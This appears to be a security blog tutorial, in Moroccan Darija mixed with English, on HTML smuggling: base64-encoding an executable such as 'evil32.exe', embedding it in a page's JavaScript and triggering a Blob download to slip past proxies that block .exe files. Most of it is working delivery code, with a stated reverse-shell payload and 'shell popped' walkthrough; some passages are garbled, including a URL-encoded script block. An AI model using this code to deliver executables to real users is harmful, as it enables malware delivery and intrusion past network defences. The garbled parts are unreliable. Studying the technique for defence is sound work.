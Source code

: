 ```yaml
---
title: File Smuggling with HTML and JavaScript
author: 0xYumeko
date: 2024-01-28 11:31:00 +0700
categories: [File Smuggling with HTML and JavaScript]
tags: [JavaScript, Smuggling, HTML]
pin: false
math: true
mermaid: true
image:
  path: /assets/img/posts/L3ak-CTF/Morocco.png
---
```



File smuggling hya wahed technique li katkhallik tkhlli files, li kaynin types mnhom .exe li kaynin blocked mn طرف proxy, bikhir. Kan nghir fiha bzaf mn tachrik li katsir mn ma ykhdmch, w l’html w javascript kaynin f had script.

**Bach tkhdam File Smuggling:**

1. **L’HTML w JavaScript:**
    
    - Katchouf l code HTML w JavaScript li kayn fi had technique  kaynin fiha snif li kaykhlli l file install mn b3d ma katsir mn proxy.
    
    - Katdir file li kayn blocked f normal situations  kamma `.exe` w katdkhol l HTML file m3a code li kaykhlli file yzaid ytb9a.
3. **Integration:**
    
    - Katdkhol code fi page li katdkhl file  w had code kaydkhl f page HTML ma kaychoufch proxy.
4. **Testing:**
    
    - Katjarrib had technique bach tkhdam bchkl s7i7. 
    - 
    - **Exemple Simple:**

     L’HTML code:
     
     ````html
     <a href="path/to/your/file.exe" download>Download File</a>
````


****L’JavaScript code (f page HTML):****

```javascript
file://%20tkhlli%20code%20li%20kaykhdam%20mn%20b3d%20maykhllikch%20download%20directfunction%20downloadfile()%20{%20%20%20%20var%20link%20=%20document.createelement('a');%20%20%20%20link.href%20=%20'path/to/your/file.exe';%20%20%20%20link.download%20=%20'file.exe';%20%20%20%20document.body.appendChild(link);%20%20%20%20link.click();%20%20%20%20document.body.removeChild(link);%7DdownloadFile();
``` 

**B’hed tariqa, kaydri li katbghi mn b3d proxy li kayfdol files mn download.**

Kayn chi tabe3 mn `base64` b khtisar . Khassek tkhlli file executable li bghiti tkhlli mn proxy  F had tariqa  t9dr tkhdam l file `.exe` mn base64 bach tkhdmo f l HTML w JavaScript.

**Convert the Executable to Base64:**

- T9dr tkonverti l file executable li bghiti (par exemple `file.exe`) ila base64 b chi tool kayna f system dyalek. 
-

**Command Line:**

```
base64.exe C:\experiments\evil32.exe > .\evil.txt
```

```bash
base64 file.exe > file_base64.txt
```

- Had command ghatdir l’output dyal base64 f file txt (e.g., `file_base64.txt`).

**Integrate the Base64 Data into Your HTML:**

- Katakhod l data li m7soubha f file `.txt` w tkhdam biha f HTML page.

**HTML Code:**

```html
<!-- code from https://outflank.nl/blog/2018/08/14/html-smuggling-explained/ -->
<html>
    <body>
        <script>
            function base64ToArrayBuffer(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            
            var bytes = new Uint8Array( len );
                for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
                return bytes.buffer;
            }

            // 32bit simple reverse shell
            var file = 'payloads';
            var data = base64ToArrayBuffer(file);
            var blob = new Blob([data], {type: 'octet/stream'});
            var fileName = 'evil.exe';

            if (window.navigator.msSaveOrOpenBlob) {
                window.navigator.msSaveOrOpenBlob(blob,fileName);
            } else {
                var a = document.createElement('a');
                console.log(a);
                document.body.appendChild(a);
                a.style = 'display: none';
                var url = window.URL.createObjectURL(blob);
                a.href = url;
                a.download = fileName;
                a.click();
                window.URL.revokeObjectURL(url);
            }
        </script>
    </body>
</html>
```

**3. Explanation:**

- **Conversion to Base64:**
- - - `base64` command tkonverti l file executable ila base64 string.
- **Integration:**
- 
- - - L base64 string katdakhlo f JavaScript w tsir l data binary mn l base64.
    - Katchof l file `.exe` mn l Blob object w katkhdmo f download link li kaykhlli file download mn browser.
    

**B hed tariqa, katkonverti l file executable l base64 w tkhdmo f HTML page, w had technique kaykhlli tkhdam mn b3d proxy li kayfdol l file types.**

L execution dyal file smuggling f HTML page, kanqsu l exemple li kayn f Internet Explorer (ou même Chrome). Had tariqa katkhllik tkhlli executable file ytb9a mn b3d ma katdir l download.

**1. Opening the HTML File:**

- **F Internet Explorer / Chrome:**
    - F chi browser  f klik 3la button li kaykhdam download  kaykhdmo mn script li kaychouf l file mn base64, w kaydwi l download dyal file.

**2. Run/Download Prompt:**

- **Prompt:**
    - Browser ghadi y3ti prompt li kaydwi  Run (ou Save). F had case, katklik Run bach tsir l executable file.


**3. Execution of the Executable:**

- **After Download:**
    - Mn b3d ma tdkhl l file ghadi ykhdam mn download w kaykhlli chi shell (command line) b zaf mn l process.

**Shell Popped:**

- F had case  shell katkhlli tkhdam mn b3d ma tdkhl l file, w had shell ghadi ykhdam mn l executable file.

**4. Risks and Considerations:**

- **Security Risks:**
    
    - Had technique kaymkin tkhdam f chi situations li kaykhdmo mn proxy w kanb9aw f risk dyal security.
    - B kaykhdam chi code w files li m arefch tdir lsecurity risks.
- **Browser Behavior:**
    
    - Different browsers kaykhdmo b sora different mn had technique. Chi browsers kaykonfiqay l safety mechanisms li kayhdmo mn security threats.

**Important Note:**

- T hzab b had techniques f chi context m7ddad w kaifach tdir t9dir tram3. Tchouf l security implications w kayn chi tools li kaytkhdam mn web security testing.

**Exemple de Code:**

```html
<html>
<body>
    <button onclick="downloadFile()">Download File</button>
    <script>
        function downloadFile() {
            var base64Data = 'base64_encoded_data_here'; // Replace with your base64 data
            var binaryString = window.atob(base64Data);
            var len = binaryString.length;
            var bytes = new Uint8Array(len);
            for (var i = 0; i < len; i++) {
                bytes[i] = binaryString.charCodeAt(i);
            }
            var blob = new Blob([bytes], { type: 'application/octet-stream' });
            var link = document.createElement('a');
            link.href = window.URL.createObjectURL(blob);
            link.download = 'file.exe';
            document.body.appendChild(link);
            link.click();
            document.body.removeChild(link);
        }
    </script>
</body>
</html>

```

Had tariqa katkhlli executable file ytb9a mn proxy w kaymkin l user ykhdam file mn browser  kamma ghadi tkhdam mn download w run.

